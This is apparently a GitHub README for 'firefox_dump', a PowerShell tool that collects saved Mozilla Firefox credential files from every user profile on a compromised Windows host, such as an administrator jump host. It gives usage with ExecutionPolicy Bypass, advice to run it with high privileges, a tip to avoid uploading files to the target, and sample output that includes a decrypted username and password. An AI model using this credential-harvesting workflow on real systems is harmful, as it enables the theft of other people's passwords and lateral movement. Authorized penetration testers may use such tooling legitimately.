 # firefox_dump
When trying to gather additional credentials from lets say an Administrator Jump Host, extracting sensitive Mozilla Firefox files is a great approach. Doing this manually is boring and time consuming, especially if there are hundreds of users under `C:\Users`. 

To simplify this I've made a simple PowerShell script, [`firefox_dump.ps1`](https://raw.githubusercontent.com/0xPThree/firefox_dump/main/firefox_dump.ps1), that gathers all sensitive Mozilla Firefox information which can later be decrypted using [`firefox_decrypt.py`](https://github.com/unode/firefox_decrypt) or similar.

The script should be ran as a high privileged user to gain as much information as possible.

## Example Usage
```powershell
PS C:\tmp> powershell.exe -ExecutionPolicy Bypass .\firefox_dump.ps1
 ___    __   ___  ___  __       __              __
|__  | |__) |__  |__  /  \ \_/ |  \ |  |  |\/| |__)
|    | |  \ |___ |    \__/ / \ |__/ \__/  |  | |
                                      by: 0xPThree

[+] Extracting secrets from 'user1' to: C:\tmp\user1\ljftf853.default-release
[+] Extracting secrets from 'user1' to: C:\tmp\user1\skvrf23a.default
[+] Extracting secrets from 'user2' to: C:\tmp\user2\grg21h5s.default
[-] 'user3' doesn't have any saved passwords in Mozilla Firefox
```

If you don't want to upload files to the target host it's possible to simply copy-paste the try-catch code from the script and run it as is in PowerShell.

```bash
┌──(void㉿void)-[/opt/firefox_decrypt]
└─$ ./firefox_decrypt.py /tmp/firefox-loot/user1            

Website:   http://localhost:8000
Username: 'dev-user'
Password: 'D3velopm3ntM@st3rK3y*!'
```
